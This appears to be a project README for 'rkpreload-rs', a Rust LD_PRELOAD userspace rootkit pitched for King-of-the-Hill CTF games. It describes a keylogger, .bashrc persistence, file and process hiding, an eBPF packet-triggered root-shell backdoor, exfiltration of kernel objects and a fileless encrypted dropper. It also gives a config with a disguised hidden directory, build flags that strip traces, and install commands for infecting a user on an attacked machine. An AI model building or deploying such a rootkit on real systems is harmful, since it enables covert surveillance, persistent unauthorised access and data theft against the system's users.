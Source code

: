 +++
title = "LD_PRELOAD Malware in Rust"
author = "yocvito"
authorTwitter = "" #do not include @
cover = ""
tags = ["project", "maldev", "rootkit", "userspace", "rust"]
keywords = ["project", "maldev", "rootkit", "userspace", "rust"]
description = "Implementing simple LD_PRELOAD malware in Rust"
showFullContent = false
readingTime = false
hideComments = false
date = 2024-12-15T00:04:38+01:00
+++

# rkpreload-rs

This is a simple Linux userspace rootkit in Rust, using `LD_PRELOAD` for injection.

This is mostly dedicated to use in KOTH CTFs.

⚠️  **WARNING** ⚠️

_This is a PoC. There is still many artifacts in the code that leak information about the malware to the user. Use at your own risk._


## Features

- **Mess with shell output** to slower other players
- **Mess with file listing**
- **Deny writing to `king.txt`**
- **Log shell commands to hidden files in /tmp** (these files are visible by other users on the system, except if they are pwned)
- **Persistence**
    - set `LD_PRELOAD` in environment variables of current process if it has been unset
    - pwn `.bashrc` file if injection has been removed
- **Hide files** prefixed by a certain string
- **eBPF loader** to load a rootkit when being run as root
    - allow loading several eBPF programs specified in `ebpf_programs` (no `map` support)
- **Collection of eBPF programs** to provide advanced rootkit capabilities
    - LSM program to better protect `king.txt` (with an alternative program if LSM isn't available)
    - program with advanced hiding capabilties (dynamically configurable through maps)
        - hide eBPF programs
        - hide pids
        - hide files
    - backdoor program: spawn a root shell when receiving a special packet
    - rootkit exfiltration program: exfiltrate objects loaded through `bpf_prog_load` and `load_module` (LKM) kernel functions (for now it exfiltrates to filesystem)
- **dropper**: send and execute files on target system 
    - use AES256-CGM for exchanging messages between attacker and dropper implant
    - performs fileless execution of binaries using `memfd_create` (local files passed as arguments are also mapped to memory and never touch disk)

## Repository Hierarchy

- `LD_PRELOAD`: holds the malicious library to inject into shells
- `eBPF`: collection of eBPF programs to provide rootkit capabilities
- `tools`: collection of usefull binaries (chattr, backdoor-cli, dropper-cli, etc.)
- `rkpreload-utils`: utility functions used in all code (anti-debug, etc.)
- `pwncat-weaponizing`: collection of scripts to install the library with `pwncat-cs`

### TODO features

- **other `root` bypass countermeasures
- **automatic exfiltrator** 
- **better hiding**
- **LKM loader** (without insmod, loading through `/dev/kmem`)

### eBPF backdoor demo

[![Watch the backdoor demo](https://img.youtube.com/vi/a3fbWpP_Ojs/hqdefault.jpg)](https://youtu.be/a3fbWpP_Ojs)



## Config file format

```toml
# enable perturbing process output (run verbose commands, print messages, etc.)
enable_perturbs = true
# enable keylogger
enable_keylogger = true
# hidden files prefix
hiding_prefix = "@"
# directory to store malware files
backup_dir = "/tmp/.@systemd-usocket-a3ef65a9"
# file for eBPF loader killswitch (allowing only one loader)
ebpf_killswitch = "/tmp/.@systemd-usocket-a3ef65a9/.@ssock"

# killswitch to disable LD_PRELOAD rootkit on current process
[killswitch]
Env = { key = "SK", val = "UTC1" }
```

Also take a look at [`ebpf_programs/king_protect.toml`](./ebpf_programs/king_protect.toml) to see how to generate a config for your ebpf programs.


## Compile

First, set `RUSTFLAGS` to remove information about your dev machine.
```shell
# bash/sh/zsh
export RUSTFLAGS="--remap-path-prefix=$HOME/=. --remap-path-prefix=$(pwd)/=."

# fish
set -lx RUSTFLAGS "--remap-path-prefix=$HOME/=. --remap-path-prefix=$(pwd)/=."
```

Then, you might want to generate the eBPF program and write it to the `ebpf_programs` dir before compiling the `LD_PRELOAD` library (see [sub-directory README for instructions](./lsm_king_protect/README.md))


```bash
cd rust_preload
# eventually edit the `config.toml` file before compiling
cargo build --release
cp target/release/librust_preload.so ./libperf.so
```

The `build.rs` file will also generate a `libpreload_install.sh` script, which is later used to pwn a user.


## How to use

We will assume you have getting access to the system and have download both the `libperf.so` and `libpreload_install.sh` files.
All commands provided following this assume to be running on attacked machine.

First, we pwn the `.bashrc` file to set `LD_PRELOAD`, to our malicious library, at startup.
```bash
./libpreload_install.sh
```

Alternatively if you are connected with `pwncat-cs` and have installed `rkpreload` modules, you can follow the instructions in [pwncat-weaponizing dir](./pwncat-weaponizing/README.md) to install the lib without having to manually upload files.

After that, anyone who starts a `bash` process, as the pwned user, will have our malicious library loaded.

To see what happens when your are pwned, run the following command (be carefull to remove malicious code in `.bashrc` after testing):
```bash
LD_PRELOAD=$(pwd)/libperf.so bash
```

Now you likely want to build the library for specific libc versions (in order to just upload the compiled library to the attacked machine). You can use Docker to achieve this goal.
